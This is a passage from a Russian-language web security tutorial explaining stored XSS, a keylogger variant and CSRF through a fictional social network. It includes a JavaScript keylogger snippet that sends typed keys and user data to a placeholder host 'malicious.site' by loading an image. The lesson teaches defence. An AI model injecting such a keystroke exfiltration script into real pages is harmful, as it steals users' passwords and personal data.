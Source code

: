 Взгляните на [пример stored XSS](https://application.security/free-application-security-training/owasp-top-10-stored-cross-site-scripting) на application.security.

## Key Logger

Одна из разновидностей хранимого XSS — это _key logger_. Представим, что в прошлый раз злоумышленники оставили не `alert()`, а программу, которая отправляет куда-то всё, что вы набираете на клавиатуре.

```js
document.body.addEventListener("keypress", (e) => {
  // ...Злоумышленники собираются все данные о пользователе,
  // которые им нужны: логин, время события, что угодно.
  const data = { ...user, key: e.key }

  // ...Переводят все данные в строку:
  const params = new URLSearchParams()

  // ...И «запрашивают картинку», но на самом деле
  // отправляют запрос на свой сервер с данными о пользователе.
  new Image().src = "https://malicious.site?data=" + encodeURIComponent(params)
})
```

Таким образом у пользователя могут украсть пароли и другие персональные данные.

## Cross-Site Request Forgery, CSRF

_Межсайтовая подделка запроса (Cross-Site Request Forgery, CSRF)_ — атака, при которой злоумышленники могут совершать действия как бы от лица пользователя.

Вернёмся к нашей совсем уж дырявой соцсети Switter. С последним обновлением Switter завёз пользователям возможность не только пересылать друг другу сообщения в личных переписках, но и деньги.

Злоумышленники знают, что после логина в Switter у пользователя остаются куки, которые потом используются для аутентификации. Они могут:

- Заманить пользователя, который был аутентифицирован в Switter, на вредоносную страницу;
- Используя его или её куки отправить запрос к Switter с «просьбой» переслать денег на конкретный аккаунт;
- Так как пользователь «аутентифицирован» запрос считается «валидным», пользователь теряет деньги.

![схема атаки Cross-Site Request Forgery](images/csrf.png)
